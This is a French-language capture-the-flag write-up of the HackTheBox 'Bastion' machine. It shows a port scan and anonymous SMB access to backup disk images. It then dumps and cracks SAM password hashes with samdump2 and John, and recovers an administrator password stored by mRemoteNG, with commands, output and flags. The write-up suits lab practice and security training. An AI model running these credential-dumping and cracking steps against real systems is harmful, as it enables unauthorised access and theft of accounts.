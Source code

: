 ```yaml
---
layout: post
title: HackTheBox - Bastion  
---
```


![bastion]({{ site.baseurl }}/images/bastion.png){:class="img-responsive"}

Débutons avec un scan : 

~~~bash
root@kali:~# nmap -p- -Pn -T5 10.10.10.134
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-10 23:42 CEST
Warning: 10.10.10.134 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.134
Host is up (0.066s latency).
Not shown: 63167 closed ports, 2355 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 41.27 seconds
~~~

Et si nous regardions la partie SMB ?  

~~~bash
root@kali:~# nmap -p445 -A 10.10.10.134
...
Host script results:
|_clock-skew: mean: -59m54s, deviation: 1h24m49s, median: -1h59m53s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-06-10T23:50:42+02:00
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-06-10 23:50:41
|_  start_date: 2019-06-09 23:13:05

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   ... 10
11  14.93 ms 10.10.10.134
~~~

En attendant continuons sur l’énumération :

~~~bash
root@kali:~# smbclient -L 10.10.10.134 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups           Disk      
	C$                   Disk      Default share
	IPC$                IPC       Remote IPC
~~~

Un dossier backups vraisemblablement intéressant : 

~~~bash
root@kali:~# smbclient //10.10.10.134/ -N
Try "help" to get a list of possible commands.
smb: \> list
0:	server=10.10.10.134, share=backups
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                           AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup   D        0  Fri Feb 22 13:44:02 2019

		7735807 blocks of size 4096. 2787024 blocks available
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0,9 KiloBytes/sec) (average 0,9 KiloBytes/sec)
~~~

Affichons le contenu des fameuses notes : 

~~~bash
root@kali:~# cat note.txt 

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
~~~

En gros, nous sommes face à un partage contenant des sauvegardes, voyons voir : 

~~~bash
root@kali:~# smbclient //10.10.10.134/backups -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                           AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup   D        0  Fri Feb 22 13:44:02 2019

smb: \> cd WindowsImageBackup\
smb: \WindowsImageBackup\> ls
  .                                   D        0  Fri Feb 22 13:44:02 2019
  ..                                  D        0  Fri Feb 22 13:44:02 2019
  L4mpje-PC                  D        0  Fri Feb 22 13:45:32 2019

smb: \WindowsImageBackup\> cd "L4mpje-PC\Backup 2019-02-22 124351\"
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  .      D        0    Fri Feb 22 13:45:32 2019
  ..     D        0    Fri Feb 22 13:45:32 2019
  A.vhd  A 37761024    Fri Feb 22 13:44:03 2019
  B.vhd  A 5418299392  Fri Feb 22 13:45:32 2019
~~~

Récupérons ces VHD. 

Ils doivent contenir des informations intéressantes, puis montons les : 

~~~bash
root@kali:~# virt-list-partitions b.vhd 
/dev/sda1
root@kali:~# virt-list-partitions a.vhd 
/dev/sda1
root@kali:~# guestmount --add b.vhd  --ro /mnt/b -m /dev/sda1
root@kali:~# ls /mnt/b
'$Recycle.Bin'  'Documents and Settings'   ProgramData     'System Volume Information'
 autoexec.bat    pagefile.sys             'Program Files'   Users
 config.sys      PerfLogs                  Recovery         Windows
~~~

Nous allons dumper la base de données SAM :

~~~bash
root@kali:/mnt/b/Windows/System32/config# samdump2 -o /root/out.sam /mnt/b/Windows/System32/config/SYSTEM /mnt/b/Windows/System32/config/SAM
root@kali:/mnt/b/Windows/System32/config# cat /root/out.sam 

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
~~~
Maintenant cassons la avec John :

~~~bash
root@kali:~# john out.sam -format=nt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (*disabled* Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-06-11 17:26) 2.439g/s 11457Kp/s 11457Kc/s 11463KC/s buresres..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
root@kali:~# john /root/out.sam -format=nt --show 
Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left
~~~

Connectons-nous via SSH : 

~~~bash
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt 9bfe57d5c3309db3a151772f9d86c6cd 
~~~

En regardant autour de nous, il semble qu'un client mRemoteNG soit installé.
Voyons pour récupérer sa configuration :

~~~bash
root@kali:~# scp -v L4mpje@10.10.10.134:C:/\Users/\L4mpje/\AppData/\Roaming/\mRemoteNG/\confCons.xml mremote.txt
~~~
Depuis une machine virtuelle, importons le fichier `confCons.xml` et extrayons le mot de passe contenu dans les champs. 
Pour cela : 
- Cliquer sur Outils > Outils externes
- Faire un clic droit dans une des case vide du tableau > Nouvel outil externe (Maj + F4)
- Dans nom affiché > `Afficher le mot de passe`
- Dans nom du fichier > `CMD `
- Arguments > `/k echo %password%`
Maintenant depuis la liste de connexions, faire un clic droit sur la connexion qui nous intéresse et cliquer sur Afficher le mot de passe.
Dans notre cas : 

~~~bash
thXLHM96BeKL0ER2
~~~
> Source : http://hackersvanguard.com/mremoteng-insecure-password-storage/

Depuis SSH, tentons d'utiliser le mot de passe trouvé dans mRemoteNG :

~~~bash
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
administrator@BASTION C:\Users\Administrator>whoami 
bastion\administrator 
administrator@BASTION C:\Users\Administrator>type Desktop\root.txt 958850b91811676ed6620a9c430e65c8                     
~~~

We are ROOT !